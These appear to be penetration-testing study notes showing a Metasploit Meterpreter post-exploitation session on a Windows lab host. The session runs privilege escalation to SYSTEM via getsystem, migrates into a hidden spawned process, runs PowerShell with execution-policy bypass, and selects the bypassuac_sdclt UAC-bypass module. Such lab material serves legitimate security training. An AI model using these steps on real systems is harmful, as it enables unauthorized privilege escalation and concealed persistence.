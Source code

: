 ## Performing Post-Exploitation with Metasploit

### Core Meterpreter Post-Exploitation Features

```bash
meterpreter > idletime
User has been idel for: 9 mins 53 secs

meterpreter > shell
C:\Users\luiza> 

meterpreter > getuid
Server username: ITWK01\luiza

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > ps
...
Process List
============
PID    PPID    Name    Arch    Session    User    Path
...

meterpreter > migrate 8052
[*] Migrating from 2552 to 8052...
[*] Migration completed successfullly.

# Creating a hidden process
meterpreter > execute -H -f notepad
Process 2720 created.

meterpreter > migrate 2720
[*] Migrating from 8052 to 2720...
[*] Migration completed successfully.

meterpreter > 
```

### Post-Exploitation Modules

Getting integrity level and bypassing UAC starting from Meterpreter session:

```bash
meterpreter > ps
meterpreter > migrate 8044
meterpreter > getuid
Server username: ITWK01\offsec
meterpreter > shell
C:\Windows\system32 powershell -ep bypass
PS C:\Windows\system32> Import-Module NTObjectManager
PS C:\Windows\system32> Get-NtTokenIntegrityLevel
Medium
PS C:\Windows\system32> ^Z
Background channel 1? [y/N]  y

meterpreter > bg
[*] Backgrounding session 9...

msf6 exploit(multi/handler) > search UAC
msf6 exploit(multi/handler) > use exploit/windows/local/bypassuac_sdclt
```